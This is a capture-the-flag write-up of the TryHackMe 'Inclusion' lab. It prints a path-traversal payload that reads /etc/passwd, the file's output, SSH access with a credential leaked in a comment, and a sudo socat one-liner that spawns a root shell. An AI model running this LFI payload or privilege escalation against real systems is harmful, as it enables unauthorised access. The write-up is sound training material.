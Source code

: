 [THM] Inclusion
================
Notes by undermouse, 15.11.2020

# Gathering access to the machine itself

Scanned with nmap. Found `ssh` and `http` servers are running.

Niether gobuster, nor nikto given results.

But found LFI vurnulable parameter on /article named `name`
Tryed:
```
article?name=../../../../../../../../../../../../../../../etc/passwd
```
And got:
```
 root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```

In the tons of crap I found user `falconfeast` and commented string
```
#falconfeast:rootpassword
```

So I tried to connect via ssh
```
ssh falconfeast@ip
```
With password:
```
falconfeast
```

And... Connected!

# We're on machine
So, the first flag is our and is in `falconfeast's` home folder.

Interesting thing, that `falconfeast` can run some commands as root.
```bash
sudo -l
> *lots of crap* 
> (root) NOPASSWD: /usr/bin/socat
```

Let's find something online.

Found this line on GTFOBins:
```
sudo socat stdin exec:/bin/sh
```

And this basically gives me obility to become root.
The second flag is in my hands, muahahahahahahha.


# Notes to remember:
- Always check for `HTTP variables`, they can lead to __Local File Inclusion__
- **Don't leave comments** in files like `/etc/password`
